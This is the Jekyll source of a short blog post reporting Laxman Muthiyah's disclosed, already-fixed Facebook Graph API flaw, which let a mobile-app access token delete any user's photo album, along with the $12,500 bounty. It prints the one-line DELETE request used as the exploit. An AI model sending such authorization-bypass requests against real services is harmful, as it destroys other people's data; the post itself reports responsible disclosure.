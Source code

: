 ```yaml
---
layout: post
title: "Discovered (and fixed) a vulnerability that permits attacker to delete any photo album on Facebook"
description: "Discovered (and fixed) a vulnerability that permits attacker to delete any photo album on Facebook"
category: Security
tags: 
- Facebook
- Exploit
- Reward
- Vulnerability
---
```

{% include JB/setup %}

[Laxman Muthiyah](https://plus.google.com/104205981064231768788) on his blog has [published](http://www.7xter.com/2015/02/how-i-hacked-your-facebook-photos.html) a post that explain a vulnerability on Facbook Open Graph API, that permits an attacker to delete any photo album on Facebook. 


![FACEBOOK](http://4.bp.blogspot.com/-0-v9JVM_6Iw/VNuhDwi-hMI/AAAAAAAAAA8/BlXn8DsZ-NI/s1600/first%2Back.JPG)

<!-- more -->

Muthiyah immediatly reports the bug to Facebook: the vulnerability was fixed in less than 2 hour, and the researcher was rewarded with $12500 USD!

![Reward](http://2.bp.blogspot.com/-c0cQE6SkEo4/VNuhyzOrZvI/AAAAAAAAABE/BkT-jFeMtyo/s1600/second%2Back.JPG)


The exploit is very simple: this HTTP API request 

{% highlight json %}
DELETE /518171421550249 HTTP/1.1
Host :  graph.facebook.com 
Content-Length: 245
access_token=<Facebook_for_Android_Access_Token>
{% endhighlight %}

made with a **Access Token** generated for *Facebook Mobile App* deletes the album #518171421550249 without any security check.

Here a video demonstration

<iframe width="640" height="360" src="https://www.youtube.com/embed/trbriB_5qVA" frameborder="0" allowfullscreen></iframe>